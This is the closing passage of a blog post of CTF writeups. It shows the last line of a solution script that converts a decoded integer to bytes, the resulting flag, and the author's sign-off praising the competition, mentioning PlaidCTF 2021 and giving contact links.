# https://stackoverflow.com/questions/21017698/converting-int-to-bytes-in-python-3
print(m.to_bytes((m.bit_length()+7)//8, byteorder='big'))
```

Flag: `actf{old_but_still_good_well_at_least_until_quantum_computing}`

## Sign-off

This was a pretty nice CTF which featured awesome challenges (despite a lot of them being quite hard). Most of them were not guessy, as the objective was clear almost straight away, and we just needed to understand how to reach it - these are the best kinds of challenges, IMO. They also featured interesting concepts and vulnerabilities, which made the CTF quite an awesome learning experience! I'll certainly be back next year!

The community (especially the organizers) were also quite nice in the CTF's Discord server, which made this all quite enjoyable. It was nice to see people getting to learn about infosec at such a young age (and being quite into it, as their challenges showed, being able to effortlessly handle advanced concepts). I did not have the opportunity to do so at their age, for sure!

I'll be looking forward to (probably) participate in [PlaidCTF 2021](https://ctftime.org/event/1199) which will be happening soon. The weight is pretty high which is a bit scary, but I'll take it as a good opportunity to learn more advanced stuff, even if I or even the whole team do not manage to solve any challenge at all!

I hope to write the next blogpost soon, which will probably be a cool status update about what has been going on with my life. I have been "piling up" cool things to share in a format like that, which will be different from all the writeups and CTF stuff.

If you have any question or suggestion about any of these challenges (or just want to talk about CTFs/infosec/pentesting or something of the sort) feel free to reach out to me via my email or [twitter](https://twitter.com/miguelpduarte)!

I hope you liked my writeups on these challenges, and that I managed to help you learn something new!<br/>
As always: thanks for reading!
